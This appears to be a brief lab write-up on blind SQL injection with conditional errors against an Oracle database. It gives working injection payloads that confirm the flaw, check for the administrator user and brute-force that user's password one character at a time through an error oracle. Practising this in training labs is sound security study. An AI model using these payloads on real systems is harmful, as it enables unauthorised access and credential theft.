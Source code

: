 # Lab 12 - Blind SQL injection with conditional errors
 <br>
since this oracle database we will use different information sechame and operators <br> 

## 1) Confirm that the parameter is vulnerable to blind SQLi
by using payload <br>
' || (select '' from dual) || '  <br>
the response have no error code which is okay  <br>
if we try something wrong i see error <br>
like ' || (select '' from dualsaasaasasassa) || ' <br>

## 2) Confirm that we have a users and administrator user in table
' || (select '' from users where rownum =1) || '  <br>
we have no error <br>
then  <br>
' || (select '' from users where username='administrator') || '  <br>
there's no error <br>
 <br>
##  3) bruteforce the password character by character 
3'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' <br>
 <br>
![image](https://github.com/user-attachments/assets/846b2816-119f-4bf7-b615-9175819904f8)
